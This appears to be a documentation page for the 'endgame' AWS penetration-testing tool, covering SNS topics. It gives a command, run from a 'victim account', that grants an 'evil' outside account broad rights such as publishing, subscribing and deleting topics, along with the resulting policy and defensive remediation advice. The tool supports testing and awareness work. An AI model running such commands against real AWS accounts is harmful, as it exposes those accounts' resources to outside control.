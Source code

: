 # SNS

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service sns --name test-resource-exposure
```

## Example

```json
{
  "Version": "2008-10-17",
  "Id": "__default_policy_ID",
  "Statement": [
    {
      "Sid": "Endgame",
      "Effect": "Allow",
      "Principal": {
        "AWS": "999988887777"
      },
      "Action": [
        "SNS:AddPermission",
        "SNS:DeleteTopic",
        "SNS:GetTopicAttributes",
        "SNS:ListSubscriptionsByTopic",
        "SNS:Publish",
        "SNS:Receive",
        "SNS:RemovePermission",
        "SNS:SetTopicAttributes",
        "SNS:Subscribe"
      ],
      "Resource": "arn:aws:sns:us-east-1:111122223333:test-resource-exposure"
    }
  ]
}
```

## Exploitation

## Remediation

* **Trusted Accounts Only**: Ensure that SNS Topics are only shared with trusted accounts, and that the trusted accounts truly need access to the SNS Topic.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **AWS Access Analyzer**: Leverage AWS Access Analyzer to report on external access to SNS Topics. See [the AWS Access Analyzer documentation](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html) for more details.
* **Restrict access to IAM permissions that could lead to exposure of your SNS Topics**: Tightly control access to the following IAM actions:
  - [sns:AddPermission](https://docs.aws.amazon.com/sns/latest/api/API_AddPermission.html): _Adds a statement to a topic's access control policy, granting access for the specified AWS accounts to the specified actions._
  - [sns:RemovePermission](https://docs.aws.amazon.com/sns/latest/api/API_RemovePermission.html): _Removes a statement from a topic's access control policy._
  - [sns:GetTopicAttributes](https://docs.aws.amazon.com/sns/latest/api/API_GetTopicAttributes.html): _Returns all of the properties of a topic. This includes the resource-based policy document for the SNS Topic, which lists information about who is authorized to access the SNS Topic_
  - [sns:ListTopics](https://docs.aws.amazon.com/sns/latest/api/API_ListTopics.html): _Returns a list of the requester's topics._

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## References

* [add-permission](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/sns/add-permission.html)